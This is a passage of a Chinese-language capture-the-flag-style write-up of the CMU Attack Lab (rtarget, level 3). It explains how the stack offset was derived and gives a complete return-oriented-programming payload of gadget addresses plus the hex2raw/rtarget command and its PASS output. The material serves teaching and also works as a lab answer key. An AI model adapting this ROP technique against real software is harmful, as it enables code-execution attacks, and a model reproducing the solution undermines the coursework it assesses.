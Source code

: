 可见，第 11 行**跳转完后**得到了 `%rsp` 的值（此时 `%rsp` 指向第 12 行），第 16 行是字符串的地址，因此偏移量 `offset` 的值为 `32`（即 `0x20`）。

将第 7 行的占位符修改为 `offset` 的实际值 `0x20`：

```text
...
20 00 00 00 00 00 00 00             /* the real value of offset     */
...
```

##### 5.4.4 ATTACK

编辑输入文件 `exploit.txt`：

```text
c2 a9 20 32 30 31 39 20
43 6f 70 79 72 69 67 68
74 20 48 61 6b 75 6c 61
2c 20 43 43 20 42 59 2d
4e 43 2d 53 41 20 00 00             /* 40 bytes of trash            */
cc 19 40 00 00 00 00 00             /* popq   %rax                  */
20 00 00 00 00 00 00 00             /* the real value of offset     */
42 1a 40 00 00 00 00 00             /* movl   %eax,%edx             */
34 1a 40 00 00 00 00 00             /* movl   %edx,%ecx             */
13 1a 40 00 00 00 00 00             /* movl   %ecx,%esi             */
06 1a 40 00 00 00 00 00             /* movq   %rsp,%rax             */
a2 19 40 00 00 00 00 00             /* movq   %rax,%rdi             */
d6 19 40 00 00 00 00 00             /* leaq   (%rdi,%rsi,1),%rax    */
a2 19 40 00 00 00 00 00             /* movq   %rax,%rdi             */
fa 18 40 00 00 00 00 00             /* the address of touch3        */
35 39 62 39 39 37 66 61             /* the value of string          */
00
```

在 `rtarget` 程序中输入该字符串：

```bash
cat exploit.txt | ./hex2raw | ./rtarget -q
```

输出信息：

```text
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:C2 A9 20 32 30 31 39 20 43 6F 70 79 72 69 67 68 74 20 48 61 6B 75 6C 61 2C 20 43 43 20 42 59 2D 4E 43 2D 53 41 20 00 00 CC 19 40 00 00 00 00 00 20 00 00 00 00 00 00 00 42 1A 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```
